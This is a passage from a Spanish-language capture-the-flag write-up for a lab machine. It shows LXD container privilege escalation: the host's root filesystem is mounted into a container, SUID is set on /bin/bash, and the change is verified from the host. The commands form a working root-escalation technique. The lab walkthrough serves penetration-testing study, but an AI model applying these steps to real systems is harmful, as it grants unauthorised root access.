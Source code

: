Entonces, podríamos quedarnos dentro del contenedor, revisando la montura para obtener la flag y ya, pero algo que podemos hacer es, asignarle **permisos SUID** al binario `/bin/bash` (o la **Bash**), que tenemos en esta montura. Esto es para que, cuando salgamos del contenedor, podamos usar la **Bash** con privilegios de **Root**.

Sal del contenedor y revisa los permisos de la **Bash**:
```bash
/mnt/root # exit
rodgar@TheHackersLabs-Templo:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1446024 mar 31  2024 /bin/bash
```
Bien, aún no tiene **permisos SUID**.

Entremos de nuevo al contenedor y vamos a movernos a la raíz de la montura:
```bash
rodgar@TheHackersLabs-Templo:~$ lxc exec privesc -- /bin/sh
~ # cd mnt/root/
/mnt/root #
```

Asignémosle **permisos SUID** a la **Bash**:
```bash
# Forma 1:
/mnt/root # chmod u+s bin/bash

# Forma 2:
/mnt/root # chmod 4755 bin/bash
```

Sal del contenedor y vuelve a revisar los permisos de la **Bash**:
```bash
rodgar@TheHackersLabs-Templo:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1446024 mar 31  2024 /bin/bash
```
Ahí está, se puede ver el cambio de los permisos.

------------
**IMPORTANTE**

¿Por qué pudimos hacer esto?

Porque montamos el **root filesystem** de la máquina víctima dentro del contenedor como **volumen compartido (bind mount)**, entonces los cambios, como dar **permisos SUID** a `/bin/bash`, se reflejan en la máquina víctima.

Podemos comprobar que es una **montura compartida (bind mount)**, si se muestra con tipo **disk** al usar el comando `lxc config device show nombre_contenedor`:
```bash
rodgar@TheHackersLabs-Templo:~$ lxc config device show privesc
giveMeRoot:
  path: /mnt/root
  recursive: "true"
  source: /
  type: disk
```
Ahí está, continuemos.

